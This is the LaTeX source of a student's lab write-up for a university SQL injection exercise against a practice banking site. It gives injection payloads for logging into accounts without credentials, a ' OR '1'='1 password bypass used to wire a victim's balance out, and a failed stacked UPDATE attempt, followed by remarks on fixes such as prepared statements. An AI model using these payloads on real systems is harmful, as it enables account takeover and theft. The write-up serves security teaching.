\documentclass[a4paper,11pt,hidelinks]{article}
%\usepackage[a-1b]{pdfx}
\usepackage{hyperref}

\usepackage{subfiles}
\usepackage{epsfig}
\usepackage{plain}
\usepackage{setspace}
%\usepackage{minted}
\usepackage{listings}

\usepackage{mdframed}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathabx}
\usepackage{tcolorbox}
\usepackage{multicol}
\usepackage[english]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=1.8cm]{geometry}
\usepackage{titlesec} 
\usepackage[utf8x]{inputenc} 

\hypersetup{colorlinks=true, urlcolor=blue}

\captionsetup{
  justification=centering,
  singlelinecheck=false,
  font=small,labelfont=bf,labelsep=space}

\begin{document}

\pagestyle{plain} 

\begingroup

\renewcommand{\cleardoublepage}{}
\renewcommand{\clearpage}{}

\titleformat{\section}
{\normalfont\Large\bfseries}{\thesection}{1em}{}


\renewcommand{\lstlistingname}{Code}%
\renewcommand{\lstlistlistingname}{List of \lstlistingname s}

\definecolor{codeBackground}{rgb}{0.9, 0.9, 0.9}

% Code environment
\lstnewenvironment{code}[1]{
    \mdframed[%
        backgroundcolor=codeBackground,
        shadow=false,
        linecolor=black!40,
        linewidth=2pt,
        topline=false,
        rightline=false,
        leftline=false
    ]%
    \lstset{%
        moredelim=**[is][\color{blue}]{**}{**},
        moredelim=**[is][\color{teal}]{.-}{-.},
        moredelim=**[is][\color{gray}]{||}{||},
        frame=single,
        framerule=0pt,
        basicstyle=\ttfamily,
        columns=fullflexible
    }%
}{% Spacing between and after caption + before end of mdframed
    \vspace{-1em}
    \endmdframed
    \vspace{-0.5em}
    \captionsetup{type=lstlisting}
    \caption{#1}
    \vspace{1.5em}
    \ignorespaces
}

\newpage

\title{SQL injection exercise}
\author{Offensive Technologies 2021 \\    
Matteo Franzil \texttt{<matteo.franzil@studenti.unitn.it>}}
\maketitle

\section{Solution}

To solve the exercise, I first connected with SSH tunneling to the main server:

\begin{verbatim}
ssh -L 8118:server.franzil-sqli.offtech:80 otech2af@users.deterlab.net  
\end{verbatim}

With port forwarding now enabled, I visited the website on my browser and solved the points. All SQL injections shown here use the user ID field, whereas the password one was filled with random gibberish (required by the code, but not used).

\begin{enumerate}
  \item Show how you can log into a single account without knowing any id numbers ahead of time.
  \begin{code}{Code for the first point.}
    ( SELECT max(id) FROM accounts LIMIT 1 );--
  \end{code}
  \item Show how you can log into every account (one at a time) without knowing any id numbers ahead of time.
  \begin{code}{Code for the second point.}
    ( SELECT id FROM accounts LIMIT 1 OFFSET n);--
  \end{code}
  \item Make some account (your choice) wire its total balance to the bank with routing number: 314159265 and account number: 271828182845
  \begin{code}{Code for the third point. With this, we get access to a random account.}
    ( SELECT id FROM accounts LIMIT 1 OFFSET 20);--
  \end{code}
  We get access to Camille Cantu's account, with id \verb=211=. We can now get access and avoid future password checks with \verb=211= as user ID and \verb|' OR '1'='1| as password. This is required since wiring balances does a password check, and so we need the code not to bother about our lack of knowledge about the password. The screenshot section shows a successful wire transfer with this account.
  \item Explain why you can't create a new account or arbitrarily update account balances (or show that you can).
  Due to how the code is written - more specifically, the \verb=mysqli.query= method, it cannot accept more than a query per statement. This limits the potentials of attacks, and only allows query modification rather than fully query injection. So, in short, no update, no drops, and else. Just to be sure, we can try to inject this:
  \begin{code}{Code for our tentative injection.}
    211; update accounts set bal=100000 where id=211;--
  \end{code}
  This returns a nice \verb=500= error on the Apache2 logs, although it seems that the error may also be related to how the code is written itself. Indeed, we get this:
  \begin{code}{Apache server logs.}
   root@server:~# cat /var/log/apache2/error.log
   [Fri Oct 01 13:46:24.359863 2021] [php7:error] [pid 11192]
   [client 192.168.253.1:58603] PHP Fatal error:  Uncaught Error:
   Call to undefined method mysqli::error() in /usr/lib/cgi-bin/FCCU.php:37
   Stack trace:\n#0 {main}\n thrown in /usr/lib/cgi-bin/FCCU.php on line 37,
   referer: http://localhost:8118/cgi-bin/FCCU.php
  \end{code}
  More on this question can be read in the following section.
\end{enumerate}

\section{Code issues}

As anticipated in the previous section, the code seems to have some major issues throughout. Some of them are pretty obvious and even pointed by comments: for example, there is a potential for integer overflow during bank transfers and subtraction of funds in the code. The major ones are, of course, related to SQL injections and the lack of a proper usage of prepared statements. In order to make the code really work and output actual issues instead of confused error messages, I removed all \verb=or die(mysql.error())= instances and added \verb=mysqli_report(MYSQLI_REPORT_ERROR= \verb=| MYSQLI_REPORT_STRICT);=, as suggested by \url{https://stackoverflow.com/questions/15318368/mysqli-or-die-does-it-have-to-die/15320411#15320411}. Finally, reducing the permissions given to the database user wired to the code would probably be a good idea.

% Account Information
% Account:	211
% Balance:	$8499
% Birthdate:	32531121
% SSN:	449-00-9198
% Phone:	3035
% Email:	camille@frobozzco.com

\section{Screenshots}

Some screenshots are included in this section.

\begin{figure}[hb!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/random-guy-1}
  \caption{Example of homepage of a random employee.}
\end{figure}

\begin{figure}[hb!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/random-guy-2}
  \caption{Example of homepage of another random employee.}
\end{figure}

\begin{figure}[hb!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/wire-successful}
  \caption{Successful wire transfer.}
\end{figure}

\begin{figure}[hb!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/exaggerate-permissions}
  \caption{Screenshot of the permissions given to the database user.}
\end{figure}

\endgroup

\end{document}
